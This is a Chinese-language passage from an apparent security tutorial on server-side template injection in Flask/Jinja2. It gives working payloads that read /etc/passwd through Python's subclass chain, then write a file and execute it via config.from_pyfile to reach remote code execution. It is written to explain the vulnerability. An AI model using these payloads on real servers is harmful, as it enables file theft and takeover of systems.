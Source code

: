 ![](http://drops.javaweb.org/uploads/images/61a11a09335d6e5abb056075b49f8903820e1090.jpg)

正如你所见，这里输出了很多东西。在我使用的目标程序中，有572个可用的类。这些会让事情变得棘手，而且也是之前推特当中payload不能运行的原因。要记住，并不是每个应用程序的Python环境都是一样的。我们的目标就是寻找有用的方法来访问相关的文件或操作系统。在所有的应用程序当中，不可能都使用类似于用`subprocess.Popen`这样不常见的类，换一种情况就有可能无法利用了，就像之前那个推特中的payload一样，就我发现的而言，在原生态的Flask中这种payload是无法利用的。幸运的是，可用利用原生态Flask的特性来让我们实现类似的行为。

如果你梳理了一下之前payload的输出，你就会发现`<type 'file'>`这个类。这是一个对文件系统访问的关键点。尽管`open`是创建`file`对象后的内建函数，但是`file`类也能够实例化文件对象，而且如果我们实例化了一个文件对象，那么我们就可用使用类似于`read`的方法来读取相关内容。为了证明这一点，找到`file`类的索引，在我的环境中`<type 'file'>`类的索引是40，我们就注入`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`。

![](http://drops.javaweb.org/uploads/images/4ecbd57733224e635aa1dcc45ee4b41a54f69149.jpg)

所以现在我们就证明了，通过Flask/Jinja2中的SSTI进行任意文件读取是有可能的，但是我们还没有完全搞定。在这里我的目标是远程代码/命令执行。

在上一篇文章当中提到了好几种`config`对象的方法，可以将相关对象加载进入Flask的配置环境中。其中一个方法就是`from_pyfile`方法。以下的代码是`Config`类中的`from_pyfile`方法，`flask/config.py`。

```
    def from_pyfile(self, filename, silent=False):
        """Updates the values in the config from a Python file.  This function
        behaves as if the file was imported as module with the
        :meth:`from_object` function.    

        :param filename: the filename of the config.  This can either be an
                         absolute filename or a filename relative to the
                         root path.
        :param silent: set to `True` if you want silent failure for missing
                       files.    

        .. versionadded:: 0.7
           `silent` parameter.
        """
        filename = os.path.join(self.root_path, filename)
        d = imp.new_module('config')
        d.__file__ = filename
        try:
            with open(filename) as config_file:
                exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
        except IOError as e:
            if silent and e.errno in (errno.ENOENT, errno.EISDIR):
                return False
            e.strerror = 'Unable to load configuration file (%s)' % e.strerror
            raise
        self.from_object(d)
        return True

```

这里有一对有意思的东西。最明显的就是将一个文件的路径作为参数传递进去，并且针对文件中的内容使用`compile`函数。如果我们能向操作系统中写文件的话那事情就变得简单了，不是吗？嗯，正如我们刚才讨论过的，我们可以做到！我们可以使用之前提到的`file`类不仅去读文件，而且也可以向目标服务器的可写入路径中写文件。然后我们再通过SSTI漏洞调用`from_pyfile`方法去`compile`文件并执行其中的内容。这就是一个二次进攻。首先，将`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }}`注入到SSTI漏洞点。然后在通过注入`{{ config.from_pyfile('/tmp/owned.cfg') }}`调用编译过程。该代码在编译时将会被执行。这就实现了远程代码执行。
